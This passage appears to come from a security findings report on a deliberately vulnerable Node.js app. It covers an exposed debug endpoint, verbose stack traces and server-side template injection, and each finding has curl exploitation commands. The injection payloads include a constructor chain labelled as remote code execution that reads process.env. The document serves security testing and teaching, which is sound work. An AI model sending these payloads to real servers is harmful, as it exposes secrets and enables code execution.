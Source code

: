 ### 6.2 Debug Endpoint Exposure
**Location**: `server/server.js` - Line 35-45  
**Severity**: High  
**Description**: Debug endpoint reveals system information.

**Exploitation**:
```bash
# Access debug info
curl http://localhost:5001/api/debug
```

### 6.3 Verbose Error Messages
**Location**: `server/server.js` - Line 50-55  
**Severity**: Low  
**Description**: Stack traces exposed in error responses.

**Exploitation**:
```bash
# Trigger error to see stack trace
curl http://localhost:5001/api/nonexistent
```

---

## 7. Server-Side Template Injection (SSTI)

### 7.1 Template Injection in Ticket Generation
**Location**: `server/routes/tickets.js` - Line 60-85  
**Severity**: Critical  
**Description**: Username processed as template without sanitization.

**Exploitation**:
```bash
# Register user with malicious username
curl -X POST http://localhost:5001/api/auth/register \
  -H "Content-Type: application/json" \
  -d '{
    "username": "{{7*7}}",
    "email": "test@test.com", 
    "password": "password"
  }'

# More dangerous payload
curl -X POST http://localhost:5001/api/auth/register \
  -H "Content-Type: application/json" \
  -d '{
    "username": "${process.env}",
    "email": "test2@test.com",
    "password": "password"
  }'

# RCE payload
curl -X POST http://localhost:5001/api/auth/register \
  -H "Content-Type: application/json" \
  -d '{
    "username": "{{constructor.constructor(\"return process.env\")()}}",
    "email": "test3@test.com",
    "password": "password"
  }'
```

---